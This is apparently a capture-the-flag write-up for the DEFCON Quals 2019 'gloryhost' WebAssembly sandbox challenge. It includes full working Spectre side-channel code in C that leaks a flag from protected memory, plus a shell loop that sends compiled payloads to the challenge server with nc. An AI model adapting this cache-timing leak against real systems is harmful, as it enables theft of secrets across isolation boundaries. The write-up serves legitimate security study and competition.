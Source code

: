 ```yaml
---
layout: post
title: DEFCON Quals 2019, Gloryhost
date:   2019-05-13 18:43:49 -0400
categories: ctf defcon quals
comments: true
---
```


<img src="/assets/gloryhost.jpg">

Author: mattypiper

Contributors: mattypiper, fringe, aarbear

## Description

gloryhost is a 64-bit Linux ELF network service written in Rust. It accepts compiled WebAssembly programs on port 9999
and executes the wasm program in a seccomp filtered sandbox. After figuring out how to generate a wasm program written in
C using wasi-sdk, we were able to load our code into the service using base64. The service then responds with an error message expecting
a certain export that was not found:

> your code makes me feel funny: unable to resolve entry point: Export not found: this_is_what_ive_got

Defining this function in C and setting it as the entry point allows the code to execute.

```c
int this_is_what_ive_got()
{
    return 0;
}
```

```bash
/opt/wasi-sdk/bin/clang -o test.wasm -Wl,-e,this_is_what_ive_got test.c
```

Gloryhost appears to execute the function and even prints the return value back to the client.
However, attempting to execute libc functions such as `open()` and `read()`
results in the service dying prematurely with a trap:

> your code makes me feel funny: unable to execute entry point: WebAssembly trap occured during runtime: unknown

The service disables syscalls with seccomp, hence the WebAssembly trap. At this point we discovered a set of functions in the
gloryhost namespace that were interesting.

1. `wasi_debug_flush` executes the x86 clflush instruction on the pointer argument
1. `wasi_check_data`, `wasi_get_data_size` and the`wasi_get_data*` functions were recognized as a set of functions that implement
a few of the "primitives" required to execute the [Spectre](https://spectreattack.com/spectre.pdf) attack (speculative execution cache side channel).
1. `wasi_debug_read` performs a C-style read of the pointer argument, required for Spectre.
1. `wasi_debug_ts` executes the x86 `rdtsc` instruction, a timing instrument that can be used to execute the Spectre attack.

Inspection with strace and gdb revealed that the challenge flag was being loaded into the .bss entry `_data6` at 0xe86120.
This memory is inaccessible using the `wasi_get_data` functions, as they were only provided for memory areas data2 thru data5.

At this point, we laid out the plan: Call the `gloryhost::wasi` functions from our C code in a Spectre-style attack
to read the flag from memory.

To call the external code, we had to define the functions as `extern` and use the linker directive 
`-Wl,--allow-undefined` to avoid link errors. Getting the function arguments and return values to line up
was aided by the dynamic WebAssembly linker built into gloryhost, which printed helpful messages such as:

> your code makes me feel funny: unable to resolve entry point: Parameters of type [] did not match signature [I32] -> [I32]

For getting the flag itself, the only instrument provided to send data back to the client was via the 32-bit return value
of the `this_is_what_ive_got` function. For example, returning 0xdeadbeef from `this_is_what_ive_got` would print:

> YOU'VE GOT deadbeef

We based our Spectre implementation on an
[existing Spectre PoC from ErikAugust](https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6).

As we implemented the Spectre attack, we had to take care to avoid using pointers or array indexing. This was because
the wasi-sdk only supported 32-bit mode. So we wrote the function prototypes replacing pointers with uint64_t, as follows:

```c
extern int64_t debug_ts();  // rdtsc
extern void debug_flush(uint64_t);  // clflush
extern void debug_read(uint64_t);
extern void check_data(int32_t);  // "victim function"
extern uint64_t get_data_size();
extern uint64_t get_data5();
```

And after some more thought, we realized that direct pointer/array accesses would not even work as expected
when crossing the boundary from WebAssembly to C/amd64.

Anyway, after tuning the cache timing threshold, we were able to read the flag one byte at a time (we kept
the code from the PoC that also generated a score and put that in the return value as well to be able to gauge
the confidence of each flag byte).

## Solution

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>

extern int64_t debug_ts();  // rdtsc
extern void debug_flush(uint64_t);  // clflush
extern void debug_read(uint64_t);
extern void check_data(int32_t);  // "victim function"
extern uint64_t get_data_size();
extern uint64_t get_data5();

#define CACHE_HIT_THRESHOLD (600) /* assume cache hit if time <= threshold */

/* aliases from github poc to gloryhost:
     array2 = get_data5()
     array1_size = get_data_size()
     victim_function = check_data()
     array1 = get_data3()
     flag is in _data6  */

void readMemoryByte(uint32_t malicious_x, uint8_t value[2], int score[2])
{
    int results[256];
    int tries, i, j, k, mix_i;
    unsigned int junk = 0;
    uint64_t time1, time2;
    size_t training_x, x;
    volatile uint8_t* addr;

    for (i = 0; i < 256; i++)
        results[i] = 0;

    for (tries = 999; tries > 0; tries--) {
        // flush data5 from cache
        for (int i = 0; i < 256; i++) {
            uint64_t p = get_data5();
            p += i*512;
            debug_flush(p);
        }

        // 30 loops, 5 training runs per attack
        training_x = tries % 16; // 16 == nelements(array1_size)
        for (j = 29; j >= 0; j--) {
            debug_flush(get_data_size());

            // delay
            for (volatile int z = 0; z < 100; z++);

            // bit twiddling
            x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
            x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
            x = training_x ^ (x & (malicious_x ^ training_x));

            check_data(x);
        }

        // time reads
        for (int i = 0; i < 256; ++i) {
            mix_i = ((i * 167) + 13) & 255;

            uint64_t addr  = get_data5();
            addr += mix_i * 512;
            time1 = debug_ts();
            debug_read(addr);
            time2 = debug_ts() - time1;
            if (time2 <= CACHE_HIT_THRESHOLD)
                results[mix_i]++;
        }

        j = k = -1;
        for (i = 0; i < 256; i++)
        {
            if (j < 0 || results[i] >= results[j])
            {
                k = j;
                j = i;
            }
            else if (k < 0 || results[i] >= results[k])
            {
                k = i;
            }
        }
        if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
            break;
    }

    value[0] = (uint8_t)j;
    score[0] = results[j];
    value[1] = (uint8_t)k;
    score[1] = results[k];
}

int this_is_what_ive_got()
{
    uint32_t malicious_x = 0x100 + MALOFFSET; // use compiler argument to "step" this index
    int score[2], len = 2;
    uint8_t value[2];
    readMemoryByte(malicious_x, value, score);
    return (value[0] << 24) | (value[1] << 16) | ((score[0] & 0xff)<<8) | (score[1] & 0xff);
}

int main() {}
```

Compile with:

```sh
/opt/wasi-sdk/bin/clang -DMALOFFSET=1 -o solve.wasm \
    -Wl,-e,this_is_what_ive_got -Wl,--allow-undefined solve.c
```

Leak one byte at a time with a script:
```sh
for i in `seq 0 40`; do \
    /opt/wasi-sdk/bin/clang -DMALOFFSET=$i -o solve.wasm \
    -Wl,-e,this_is_what_ive_got -Wl,--allow-undefined solve.c && \
    cat solve.wasm | base64 -w0 | nc -N gloryhost.quals2019.oooverflow.io 9999 | egrep '^YOU' | cut -d' ' -f3 | cut -c1-2 | xxd -r -p; \
    done
```
